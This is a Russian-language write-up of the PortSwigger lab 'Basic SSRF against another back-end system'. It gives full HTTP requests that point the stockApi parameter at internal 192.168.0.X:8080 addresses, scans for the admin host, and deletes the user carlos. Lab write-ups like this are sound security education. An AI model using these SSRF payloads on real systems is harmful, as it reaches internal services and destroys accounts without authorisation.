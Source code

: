 ```yaml
---
title: "Basic SSRF against another back-end system"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-backend-system"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для прохождения лабы нам нужно найти `ip`-адрес бекенд сервиса, на котором расположена панель администратора `/admin` на порту `8080`, а затем удалить пользователя `carlos`.

Мы знаем, что адрес сервиса начинается с `192.168.0.X` и располагается на порту `8080`.

```
https://0a8c001c03be57138111448800b200f6.web-security-academy.net/
```

## Solution

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Подставим предполагаемый адрес в параметр `stockApi`:

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://192.168.0.1:8080/admin
```

Получили ответ:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Missing parameter"
```

Теперь нужно перебрать значения от `2` до `255`, пока не получим код `200`. Для этого можно использовать `Intruder` в `Burp Suite`.

Перебором `ip` адресов я нашел, что нужный нам — это `192.168.0.53`. Получим код страницы с админ панелью с помощью запроса на адрес `http://192.168.0.53:8080/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/1.png){: height="200" .align-center}

Для удаления пользователя отправим запроса на адрес `http://192.168.0.53:8080/admin/delete?username=carlos` и затем проверим ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/2.png){: height="200" .align-center}
